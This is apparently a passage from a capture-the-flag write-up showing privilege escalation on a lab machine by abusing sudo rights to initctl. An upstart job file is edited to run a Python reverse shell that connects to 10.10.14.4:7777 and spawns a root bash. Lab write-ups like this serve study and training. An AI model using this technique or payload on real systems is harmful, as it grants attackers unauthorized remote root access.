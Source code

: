 ```bash
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

```bash
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 5777
katie@spectra ~ $ ls /tmp
bash                                   disk-post-startup            uptime-lockbox-cache-start
disk-boot-complete                     disk-pre-startup             uptime-login-prompt-visible
disk-chrome-exec                       disk-shill-start             uptime-network-ethernet-configuration
disk-chrome-main                       disk-ui-post-stop            uptime-network-ethernet-no-connectivity
disk-cryptohome-unmounted              f                            uptime-network-ethernet-ready
disk-lockbox-cache-end                 firmware-boot-time           uptime-network-ethernet-registered
disk-lockbox-cache-start               mysql.sock                   uptime-other-processes-terminated
disk-login-prompt-visible              mysql.sock.lock              uptime-post-startup
disk-network-ethernet-configuration    uptime-boot-complete         uptime-pre-startup
disk-network-ethernet-no-connectivity  uptime-chrome-exec           uptime-shill-start
disk-network-ethernet-ready            uptime-chrome-main           uptime-ui-post-stop
disk-network-ethernet-registered       uptime-cryptohome-unmounted
disk-other-processes-terminated        uptime-lockbox-cache-end
katie@spectra ~ $ /tmp/bash -p
-bash: /tmp/bash: Permission denied
katie@spectra ~ $ 
```

That is unexpected... Oh well onto a simple python revshell for a root shell. Be sure to stop the service before editing the file.


```bash
katie@spectra ~ $ sudo /sbin/initctl stop test
test stop/waiting
katie@spectra ~ $ nano /etc/init/test.conf
Error in /usr/local/etc/nanorc on line 260: Error expanding /usr/share/nano/*.nanorc: No such file or directory
katie@spectra ~ $ cat /etc/init/test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
```